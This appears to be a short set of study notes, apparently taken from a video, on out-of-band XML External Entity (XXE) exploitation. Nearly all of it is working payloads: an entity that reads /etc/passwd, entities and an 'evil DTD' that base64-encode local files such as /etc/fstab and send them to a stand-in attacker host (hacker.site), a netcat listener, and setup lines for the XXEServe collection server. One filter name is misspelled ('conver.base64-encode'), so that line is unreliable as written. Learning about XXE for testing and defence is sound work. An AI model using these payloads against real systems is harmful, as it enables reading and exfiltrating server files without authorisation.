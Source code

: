 To assist in the exploitation of this technique:
```
https://github.com/joernchen/xxeserve
```

Its an app that runs a server which is useful in collecting data sent out of band

*example using XXEServe in images


### Note from Video

#### 1
```xml
<!DOCTYPE test [
<!ENTITY fakeEntity SYSTEM "file:///etc/passwd">
]>
...
&fakeEntity
```

#### 2
```xml
<!DOCTYPE test [
<!ENTITY fakeEntity SYSTEM "http://hacker.site:1337/XXE_OOB_TEST">
]>

...
&fakeEntity
```


in kali:
```bash
netcat -lvnp 1337 -k -w 1
```

Grab the xxeserver from github

Add these lines:
```bash
set :bind, "xxe.hacker.site"
set :port, 80
```

### evil DTD
```xml
<!ENTITY % resource SYSTEM "php://filter/read=conver.base64-encode/resource=file:///etc/fstab">
<!ENTITY % LoadOOBEnt "<!ENTITY &#x25; OOB SYSTEM 'http://xxe.hacker.site/?p=%resource;'> ">
```


### evil XML
```xml
<!DOCTYPE XXE_OOB [
  <!ENTITY % EvilDTD SYSTEM "http://hacker.site/evil.dtd">
  %EvilDTD; 
  %LoadOOBEnt; // the entity that defines a new entity
  %OOB; // entity that performs the OOB communication
]>
```
